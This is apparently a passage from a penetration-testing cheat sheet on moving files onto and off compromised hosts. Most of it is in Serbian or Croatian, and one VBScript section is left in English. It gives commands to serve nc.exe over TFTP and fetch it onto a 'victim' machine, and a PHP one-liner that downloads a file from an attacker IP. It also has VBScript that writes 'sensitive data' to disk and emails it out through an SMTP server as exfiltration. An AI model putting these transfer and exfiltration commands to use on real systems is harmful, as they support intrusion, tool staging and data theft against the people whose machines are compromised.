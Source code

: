 ```bash
#I didn't get this options working and I prefer the python option
mkdir /tftp
atftpd --daemon --port 69 /tftp
cp /path/tp/nc.exe /tftp
```

**TFTP server u Pythonu:**

```bash
pip install ptftpd
ptftpd -p 69 tap0 . # ptftp -p <PORT> <IFACE> <FOLDER>
```

Na **žrtvu**, povežite se sa Kali serverom:

```bash
tftp -i <KALI-IP> get nc.exe
```

## PHP

Preuzmite fajl pomoću PHP jednolinijske komande:

```bash
echo "<?php file_put_contents('nameOfFile', fopen('http://192.168.1.102/file', 'r')); ?>" > down2.php
```

## VBScript

### VBScript Exfiltration Techniques

VBScript can be used to exfiltrate data from a compromised system. Below are some common techniques:

1. **Writing to Files**: VBScript can write data to a file on the system, which can then be exfiltrated using various methods.
2. **Sending Emails**: VBScript can be used to send emails with the exfiltrated data as attachments or within the email body.
3. **HTTP Requests**: VBScript can make HTTP requests to an external server controlled by the attacker to exfiltrate data.
4. **DNS Requests**: VBScript can make DNS requests with encoded data to exfiltrate information.

### Example VBScript Exfiltration Code

```vbscript
' Example VBScript code for exfiltrating data

' Write data to a file
Set objFSO = CreateObject("Scripting.FileSystemObject")
Set objFile = objFSO.CreateTextFile("C:\exfiltrated_data.txt", True)
objFile.Write "Sensitive data to exfiltrate"
objFile.Close

' Send an email
Set objEmail = CreateObject("CDO.Message")
objEmail.From = "attacker@example.com"
objEmail.To = "recipient@example.com"
objEmail.Subject = "Exfiltrated Data"
objEmail.TextBody = "Attached is the exfiltrated data."
objEmail.AddAttachment "C:\exfiltrated_data.txt"
objEmail.Configuration.Fields.Item("http://schemas.microsoft.com/cdo/configuration/sendusing") = 2
objEmail.Configuration.Fields.Item("http://schemas.microsoft.com/cdo/configuration/smtpserver") = "smtp.example.com"
objEmail.Configuration.Fields.Item("http://schemas.microsoft.com/cdo/configuration/smtpserverport") = 25
objEmail.Configuration.Fields.Update
```